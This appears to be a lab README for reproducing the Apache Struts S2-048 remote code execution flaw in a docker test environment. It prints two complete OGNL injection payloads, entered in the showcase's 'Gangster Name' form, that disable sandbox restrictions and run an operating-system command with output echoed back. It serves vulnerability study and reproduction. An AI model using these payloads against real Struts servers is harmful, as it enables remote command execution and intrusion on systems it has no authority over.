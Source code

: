 # S2-048 Remote Code Execution Vulnerability

Impact version: 2.0.0 - 2.3.32

Vulnerability details:: 

 - http://struts.apache.org/docs/s2-048.html
 - http://bobao.360.cn/learning/detail/4078.html
 - http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/

##  Test environment setup

```
docker-compose up -d
```

## Vulnerability recurrence

See the reference documentation for details. Just talk about the current environment.

This environment is directly downloaded from the struts-2.3.32 showcase, deployed under tomcat-8.5. After the environment is started, visit`http://your-ip:8080/showcase/`to view the test page of struts2.

Visit Integration/Struts 1 Integration:
![](01.png)

The location that triggers the OGNL expression is the`Gangster Name`form.

Enter`${233*233}`to see the results of the execution (the remaining two forms are free to fill in):

![](02.png)

 borrowed a sandbox bypass method from S2-045 and I changed a POC. Fill in the following POC into the form`Gengster Name`submit it to directly echo the results of the command execution:

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![](03.png)

Of course, you can also use the POC of s2-045 directly (you need to test under Burp):

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
